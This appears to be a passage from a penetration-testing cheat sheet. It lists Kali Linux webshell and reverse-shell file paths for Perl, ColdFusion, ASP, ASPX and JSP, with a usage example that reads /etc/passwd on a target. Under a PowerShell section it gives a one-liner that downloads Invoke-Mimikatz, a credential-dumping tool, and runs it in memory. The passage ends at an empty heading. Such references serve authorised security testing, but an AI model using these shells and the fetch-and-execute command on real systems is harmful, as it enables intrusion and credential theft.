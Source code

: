| Command                                          | Description                                                                       |
| ------------------------------------------------ | --------------------------------------------------------------------------------- |
| /usr/share/webshells/perl/ perl-reverse-shell.pl | Pen Test Monkey - Perl Reverse Shell                                              |
| /usr/share/webshells/ perl/perlcmd.cgi           | Pen Test Monkey, Perl Shell. Usage: http://target.com/perlcmd.cgi?cat /etc/passwd |

### <mark style="color:orange;">Kali Cold Fusion Shell</mark>

Kali Coldfusion Shell:

| Command                             | Description                       |
| ----------------------------------- | --------------------------------- |
| /usr/share/webshells/cfm/cfexec.cfm | Cold Fusion Shell - aka CFM Shell |

### <mark style="color:orange;">Kali ASP Shell</mark>

Classic ASP Reverse Shell + CMD shells:

| Command                   | Description     |
| ------------------------- | --------------- |
| /usr/share/webshells/asp/ | Kali ASP Shells |

### <mark style="color:orange;">Kali ASPX Shells</mark>

ASP.NET reverse shells within Kali

| Command                    | Description      |
| -------------------------- | ---------------- |
| /usr/share/webshells/aspx/ | Kali ASPX Shells |

### <mark style="color:orange;">Kali JSP Reverse Shell</mark>

Kali JSP Reverse Shell:

| Command                                  | Description            |
| ---------------------------------------- | ---------------------- |
| /usr/share/webshells/jsp/jsp-reverse.jsp | Kali JSP Reverse Shell |

## <mark style="color:red;">Powershell</mark>

### <mark style="color:orange;">load script in memory</mark>

```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1') ;
```

### <mark style="color:orange;">Proxy-aware Load in Memory with User Agent</mark>
